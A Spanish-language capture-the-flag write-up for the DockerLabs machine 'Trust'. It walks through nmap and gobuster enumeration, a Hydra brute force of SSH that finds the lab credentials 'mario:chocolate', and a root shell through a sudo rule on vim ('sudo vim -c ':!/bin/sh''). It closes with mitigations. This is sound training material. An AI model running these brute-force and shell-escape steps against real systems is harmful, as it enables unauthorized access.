









# Trust - DockerLabs

| Campo      | Detalle                   |
| ---------- | ------------------------- |
| Plataforma | DockerLabs                |
| Dificultad | Muy fácil                 |
| Sistema    | Linux (contenedor Docker) |
| IP         | 172.18.0.2                |
| Fecha      | 27/10/2026                |

## Resumen

El acceso inicial se obtiene enumerando la web del puerto 80, donde una ruta oculta (`secret.php`) revela el nombre de un usuario válido (`mario`). Con ese usuario se realiza un ataque de **fuerza bruta** contra el servicio SSH usando [Hydra](https://github.com/vanhauser-thc/thc-hydra) y el diccionario `rockyou.txt`, obteniendo una **credencial débil** (`mario:chocolate`). La escalada de privilegios se consigue mediante un permiso `sudo` sobre el binario `/usr/bin/vim`, que permite ejecutar una shell como `root` ([GTFOBins](https://gtfobins.github.io/gtfobins/vim/)).

## Despliegue del laboratorio

Se despliega la máquina vulnerable con el script proporcionado por DockerLabs:

```bash
sudo bash auto_deploy.sh trust.tar
```

El script confirma el despliegue y asigna la IP de la máquina:

```
Máquina desplegada, su dirección IP es —> 172.18.0.2
```



## Reconocimiento

Se lanza un escaneo de puertos completo con [Nmap](https://nmap.org/book/man.html):

```bash
sudo nmap -p- -sS -sC -sV -T5 -n -Pn -vvv 172.18.0.2
```

Parámetros empleados:

- `-p-`: escanea los 65535 puertos TCP, no solo los más comunes.
- `-sS`: escaneo SYN (half-open), rápido y discreto.
- `-sC`: ejecuta los scripts NSE por defecto para obtener más información de cada servicio.
- `-sV`: detección de versión de los servicios.
- `-T5`: plantilla de temporización más agresiva, para acelerar el escaneo.
- `-n`: no resuelve DNS inverso.
- `-Pn`: omite el descubrimiento de host (asume que está activo), necesario porque muchos entornos Docker/CTF no responden a ping.
- `-vvv`: salida muy detallada, útil para ver los puertos según se van descubriendo.



El detalle del escaneo de servicios muestra dos puertos abiertos:

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



Se identifican dos servicios:

- **22/tcp (SSH, OpenSSH 9.2p1)**: una vía de acceso potencial, pero requiere credenciales válidas que todavía no se tienen.
- **80/tcp (HTTP, Apache 2.4.57)**: muestra la página por defecto de Apache, sin contenido visible a simple vista.

Dado que el acceso por SSH necesita un usuario y contraseña, el primer paso es enumerar la web en busca de información que ayude a identificar un usuario o unas credenciales.

## Enumeración

Para descubrir rutas y ficheros no enlazados desde la página principal se realiza un *fuzzing* de directorios con [Gobuster](https://github.com/OJ/gobuster), que prueba nombres a partir de un diccionario y, con `-x`, añade varias extensiones a cada palabra:

```bash
gobuster dir -u http://172.18.0.2 \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
  -x html,php,sh,py,bak,txt \
  -t 10
```

Desglose del comando:

- `dir`: modo de enumeración de directorios y ficheros.
- `-u http://172.18.0.2`: URL objetivo.
- `-w .../DirBuster-2007_directory-list-2.3-medium.txt`: diccionario de rutas (del proyecto [SecLists](https://github.com/danielmiessler/SecLists)).
- `-x html,php,sh,py,bak,txt`: extensiones que se prueban sobre cada palabra del diccionario (útil para localizar scripts `.php` o copias `.bak`).
- `-t 10`: número de hilos concurrentes.

El escaneo descubre, entre otras, la ruta `secret.php`, que responde con código **200** (existe y es accesible):

```
index.html            (Status: 200) [Size: 10701]
secret.php            (Status: 200) [Size: 927]
server-status         (Status: 403) [Size: 275]
```



Al visitar `http://172.18.0.2/secret.php` desde el navegador, la página saluda por su nombre a un usuario: **Hola Mario, Esta web no se puede hackear.** Esto revela un nombre de usuario válido del sistema (`mario`), que es justo lo que faltaba para atacar el servicio SSH:



## Explotación / acceso inicial

Con un usuario válido (`mario`) pero sin contraseña, se realiza un ataque de **fuerza bruta** contra SSH. La fuerza bruta por diccionario consiste en probar automáticamente muchas contraseñas de una lista hasta dar con la correcta; funciona cuando el usuario emplea una **contraseña débil** presente en diccionarios conocidos. Se usa [Hydra](https://github.com/vanhauser-thc/thc-hydra) con el diccionario `rockyou.txt`:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

Desglose del comando:

- `-l mario`: nombre de usuario fijo a atacar (el descubierto en `secret.php`).
- `-P /usr/share/wordlists/rockyou.txt`: lista de contraseñas a probar (`rockyou.txt`, el diccionario clásico de credenciales filtradas incluido en Kali).
- `ssh://172.18.0.2`: protocolo y objetivo del ataque.

Hydra encuentra una credencial válida, confirmando que la contraseña del usuario es débil:

```
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```



Con las credenciales obtenidas (`mario:chocolate`) se accede por SSH a la máquina:

```bash
ssh mario@172.18.0.2
```

Tras introducir la contraseña se obtiene una shell como el usuario `mario`:



## Escalada de privilegios

Ya dentro como `mario`, se enumeran los permisos `sudo` del usuario:

```bash
sudo -l
```

La salida revela que `mario` puede ejecutar el binario `/usr/bin/vim` como cualquier usuario (`(ALL)`), es decir, también como `root`:

```
User mario may run the following commands on 7f542c1c571c:
    (ALL) /usr/bin/vim
```



`vim` es un editor de texto, pero dispone de comandos internos que permiten lanzar órdenes del sistema (`:!comando`). Al poder ejecutarse como `root` vía `sudo`, esa shell se abre con privilegios de superusuario. Esta técnica está documentada en [GTFOBins](https://gtfobins.github.io/gtfobins/vim/):

```bash
sudo vim -c ':!/bin/sh'
```

Desglose del comando:

- `sudo vim`: ejecuta `vim` como `root` (amparado por el permiso de `sudo`).
- `-c ':!/bin/sh'`: indica a `vim` que, nada más arrancar, ejecute el comando `:!/bin/sh`, que lanza una shell `/bin/sh`. Como `vim` corre como root, la shell hereda ese contexto.

Tras ejecutarlo se comprueba el usuario y se confirma el acceso como **root**:

```bash
whoami
root
```



La máquina queda totalmente comprometida.

## Conclusiones y mitigaciones

- **Divulgación de usuario y fuerza bruta en SSH (acceso inicial)**: una ruta web (`secret.php`) expone el nombre de un usuario válido, y la cuenta usa una contraseña débil presente en diccionarios públicos (`rockyou.txt`), lo que permite adivinarla por fuerza bruta ([OWASP - Brute Force Attack](https://owasp.org/www-community/attacks/Brute_force_attack)).
  - **Mitigación**: no exponer nombres de usuario en la web, exigir contraseñas robustas, limitar los intentos de login (fail2ban, *rate limiting*), deshabilitar la autenticación por contraseña en SSH en favor de claves públicas y restringir el acceso al servicio a redes de confianza.
- **Permiso `sudo` sobre `/usr/bin/vim` (escalada de privilegios)**: conceder `sudo` sobre un binario que permite ejecutar comandos arbitrarios (*shell escape*) equivale a dar acceso total a `root` ([GTFOBins - vim](https://gtfobins.github.io/gtfobins/vim/)).
  - **Mitigación**: aplicar el principio de mínimo privilegio en `sudoers`, no otorgar `sudo` sobre editores u otros binarios con capacidad de evasión de shell, y auditar periódicamente la configuración de `sudo`.
- **Buenas prácticas generales**: mantener el software actualizado, minimizar la superficie expuesta y monitorizar los intentos de autenticación fallidos.

## Herramientas utilizadas

- [`nmap`](https://nmap.org/) — escaneo y enumeración de puertos y servicios.
- [`gobuster`](https://github.com/OJ/gobuster) — descubrimiento de rutas y ficheros web por diccionario.
- [`hydra`](https://github.com/vanhauser-thc/thc-hydra) — ataque de fuerza bruta de credenciales contra SSH.
- Navegador web — acceso a `secret.php` e identificación del usuario.
- `ssh` — conexión a la máquina con las credenciales obtenidas.
- [`vim`](https://gtfobins.github.io/gtfobins/vim/) — binario abusado para la escalada de privilegios.

## Referencias

- [OWASP — Brute Force Attack](https://owasp.org/www-community/attacks/Brute_force_attack)
- [GTFOBins — vim](https://gtfobins.github.io/gtfobins/vim/)
- [HackTricks — Pentesting SSH](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh)
- [THC Hydra — GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Gobuster — GitHub](https://github.com/OJ/gobuster)
- [SecLists — GitHub](https://github.com/danielmiessler/SecLists)
- [Nmap Reference Guide](https://nmap.org/book/man.html)
